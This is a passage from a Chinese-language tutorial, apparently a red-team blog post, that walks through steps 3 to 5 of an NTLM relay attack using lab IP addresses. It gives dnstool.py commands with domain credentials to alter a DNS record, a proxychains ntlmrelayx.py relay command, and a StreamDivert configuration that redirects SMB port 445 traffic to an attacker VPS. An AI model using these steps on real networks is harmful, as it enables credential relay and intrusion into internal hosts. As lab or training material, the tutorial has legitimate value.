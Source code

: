 
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.130 --action modify 192.168.214.134 --tcp
＃ 这里必须加 --tcp 参数将 UDP 封装在 TCP中进行 DNS 查询
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El9ECSwYiaZtYHV24uWcSOibialo34w5EuXhJddAbBu4hHcOSBQajemE3cw/640?wx_fmt=png&from=appmsg "")  
  
  
3  
.  
   
在   
VPS  
 开启监听。如果是 Windows 主机，则使  
用  
--smb-port   
指定  
一个端口。  
  
注意这里需要使用   
proxychains  
 来运行   
ntlmrelayx.py  
 ，因为 VPS 接收到目标机器的验证请求之后需要通过   
iox  
 隧道将其反射回内网。具体原理可以参考上一篇文章。  

```
proxychains python3 ntlmrelayx.py -t 192.168.214.135 -smb2support
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElfH6XY55PI6SvLlHHlic93ic817LicnyybF396Dl0hibAib7XofI34m5FDicw/640?wx_fmt=png&from=appmsg "")  
  
  
4.   
在入口机搭建隧道，将本地 445 端口流量转发到远程 VPS 主机的监听端口。  
  
StreamDivert  
 配置文件如下：  

```
tcp < 445 0.0.0.0 -> 192.168.56.129 445
```


```
5. 加载配置文件启动转发：
```


```
shell StreamDivert.exe config.txt
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElT7EdNQ1uYmNjnfeDgV2cZUJYHSmjc4ibib1oKo7nQ2Y2SIwCG21iaqQBg/640?wx_fmt=png&from=appmsg "")  
  